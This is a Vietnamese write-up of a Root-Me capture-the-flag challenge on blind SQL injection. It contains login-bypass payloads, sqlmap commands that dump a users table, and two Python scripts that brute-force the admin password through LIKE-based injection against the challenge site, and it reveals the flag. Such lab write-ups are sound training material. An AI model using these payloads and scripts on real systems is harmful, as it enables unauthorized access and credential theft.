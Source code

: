 # SQL-Blind

Point: 50

Authentication v 0.02

Statement: Retrieve the administrator password.

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234175477-7497d7e8-27d7-44b5-8711-6c8bcbdcc3cd.png)

Form của challenge cho ta trang web có chức năng login.Dự đoán query của bài này

`SELECT ... from ... where username=... and password = ...`

Vậy ta có thê khai thác lỗ hổng ở phần này. Mình sẽ thử fuzz thử ở phần login

`' admin or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234175844-4bd9a90b-f777-4b84-879f-65b3941f3cb3.png)

Có báo lỗi và ta thấy database bài này đang chạy SQLite3.Mình sẽ thử fuzz thêm nữa

`' or 1=1--`

![image](https://user-images.githubusercontent.com/115911041/234176024-6e5da0f2-79b1-47d9-a831-c735fd7d6983.png)

Adu mình vào được user1 nhưng mà hâu như trong đây không có gì đáng chú ý.

Vậy bài này ta có thể khai thác ở phần login. Challenge lần này là `Blind`. Ý tưởng là ta sẽ cắt các kí tự đầu của password rồi đem đi so sánh, nếu password đó trả về là "Welcome back Admin" thì nó sẽ là password đúng. Vậy ta có thể dùng toán tử [LIKE](https://laptrinhtudau.com/toan-tu-like-trong-sql/)  dựa trên idea đó. Hoặc dùng [SQLmap](https://github.com/sqlmapproject/sqlmap)

# Solution:

# 1ST

Bước đầu cần xác định số column

`admin' order by 2 --` hoặc ` 'order by 3--`

![image](https://user-images.githubusercontent.com/115911041/234177032-44fc97f6-2a26-417e-a452-8c9f3a922b7b.png)

Cái này mình rùa @@ sao vào được admin lunnnn!!!. Nhưng mà không có gì có ích mấy useless vcl. Nhưng kết quả cho ra, thì ta biết là có 2 column.

Bài này sử dụng phương thức POST để truyền truy vấn nên ta sẽ bắt bằng burpsuite.Tại request ta thấy ta truyền vào 2 payload là username và password. Ta sẽ sử dụng sqlmap để thực hiện khai thác bài này.

![image](https://user-images.githubusercontent.com/115911041/234178081-235ce51f-1136-41e7-83c6-e7e1a19e8361.png)

Trước hết copy phần request lưu vào 1 file, ở đây là file bind.txt. Sau đó mở sqlmap lên, tại đây là sử dụng `options -r` để đọc file. Nhớ cd vào file `sqlmap-dev` mới sử dụng được nhaaaa. Gõ lệnh:

`python3 sqlmap.py -r Blind.txt --dbs`

![image](https://user-images.githubusercontent.com/115911041/234183697-a8766aa4-da42-4672-8486-f1df3bff66f1.png)

Kết quả trả về cho ta thấy trang web bị lỗi time-based blind SQL injection. Không có database trả về, tuy nhiên nó gợi ý cho chúng ta khai thác luôn tên bảng. Ta gõ lệnh:

`python sqlmap.py -r Blind.txt --tables`

![image](https://user-images.githubusercontent.com/115911041/234186948-79de7789-1496-4ca9-b78c-67e5099e6117.png)

Kết quả trả về 1 bảng là users. Ta thực hiện dump toàn bộ dữ liệu trong bảng ra

`python sqlmap.py -r Blind.txt -T users --dump`

![image](https://user-images.githubusercontent.com/115911041/234194016-dc38c959-707d-4b56-9a4c-64477eec96fb.png)

Và ta đã có flag `e2azO93i`

# 2nd:

Và như mình đã nói ở trên các bạn có thể dùng toán tử LIKE để làm bài. Mình sẽ làm ở đây:
```
import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'
character_list = string.printable
pw = ''
tmpPassword = ''

while (True):
    for char in character_list:
        tmpPassword = pw + char
        data = {
            'username':"admin' and password LIKE '"+ tmpPassword + "%'--",
            'password': 'asdasdasdasds'
        }
        http = requests.post(url = URL, data = data)
        if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
            pw = tmpPassword
            print("Matched:",pw)
            break
    print("Finished!")
```

Sau đó mình có kết quả là `e2azo93i`. Nhưng lưu ý ở đây là LIKE không xác định được uppercase hay lowercase. Vậy thì ta brute force lại 1 lần nữa.Trong password có 5 kí tự thường vậy thì 2^5 = 32 trường hợp.

```
 # Step 2: Generate password

import sys
import requests
import string

URL='http://challenge01.root-me.org/web-serveur/ch10/'   

listPassword = []
strPassword = ''
for c1 in ['e', 'E']:
    for c3 in ['a', 'A']:
        for c4 in ['z', 'Z']:
            for c5 in ['o', 'O']:
                for c8 in ['i', 'I']:
                    strPassword = c1 + '2' + c3 + c4 + c5 + '93' + c8
                    listPassword.append(strPassword)
                    
print("### Start to attack ###")
for password in listPassword:
    data = {
        'username':"admin' and password='"+ password + "'--",
        'password': 'asdasdasdasds'
    }
    http = requests.post(url = URL, data = data)
    if http.text.find('Welcome back admin !</h2><h3>Your informations :</h3><p>- username : admin</p><br />Hi master ! <b>To validate the challeng')!=-1:
        print("Got it: ", password)
```

![image](https://user-images.githubusercontent.com/115911041/234212578-8eab86ff-6e9b-4406-96c0-baf95c81f17e.png)

Và ta đã ra được flag.

Nhận xét: Sau khi mình đưa a khánh, thì cách này không được hay cho lắm chỉ được dùng trong trường hợp ít còn nếu mà tầm 30 kí tự thì bốc c mà ăn lunn.Nên là các bạn có thể tham khảo cách của a Khánh [ở đây nha](https://clbuezzz.wordpress.com/2021/05/26/root-me-challenge-sql-injection-time-based/)

